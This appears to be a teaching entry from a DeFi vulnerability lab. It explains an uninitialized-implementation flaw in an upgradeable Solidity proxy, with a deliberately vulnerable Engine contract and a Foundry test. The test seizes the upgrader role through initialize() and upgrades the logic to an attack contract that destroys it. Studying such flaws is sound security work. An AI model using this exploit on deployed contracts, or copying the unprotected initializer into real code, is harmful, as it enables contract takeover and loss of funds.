

# Uninitialized state variables  
[Uninitialized_variables.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Uninitialized_variables.sol)  
**Name:** Uninitialized variable Vulnerability

**Description:**  
Uninitialized local storage variables may contain the value of other storage variables in the contract;
this fact can cause unintentional vulnerabilities, or be exploited deliberately.

**REF:**

https://blog.dixitaditya.com/ethernaut-level-25-motorbike

**Contract:**  
```
contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT =
        0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }
```
**How to Test:**

forge test --contracts src/test/**Uninitialized_variables.sol** -vvvv
```
// A function to test exploiting an uninitialized contract.
function testUninitialized() public {
    // A new instance of Engine and Motorbike contracts are created. 
    // The address of the EngineContract is passed to the MotorbikeContract's constructor.
    EngineContract = new Engine();
    MotorbikeContract = new Motorbike(address(EngineContract));

    // A new instance of AttackContract is created.
    AttackContract = new Attack();

    // Prints the upgrader of the EngineContract. Since EngineContract is not yet initialized, upgrader is likely a zero address.
    console.log("Uninitialized Upgrader:", EngineContract.upgrader());

    // Calls the `initialize()` function of the EngineContract. 
    // Since EngineContract was not initialized, whoever calls this function becomes the "upgrader".
    address(EngineContract).call(abi.encodeWithSignature("initialize()"));

    // Prints the upgrader of the EngineContract. Now, it will be the address that called `initialize()`.
    console.log("Initialized Upgrader:", EngineContract.upgrader());

    // Upgrades the implementation of the proxy (EngineContract) to a malicious contract (AttackContract) and call `attack()`.
    bytes memory initEncoded = abi.encodeWithSignature("attack()");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );

    // Prints "Exploit completed"
    console.log("Exploit completed");

    // Since the EngineContract was destroyed by the `attack()`, the next call will fail.
    console.log("Since EngineContract destroyed, next call will fail.");
    address(EngineContract).call(
        abi.encodeWithSignature(
            "upgradeToAndCall(address,bytes)",
            address(AttackContract),
            initEncoded
        )
    );
}
```
Red box: change the logic contract by initialize.

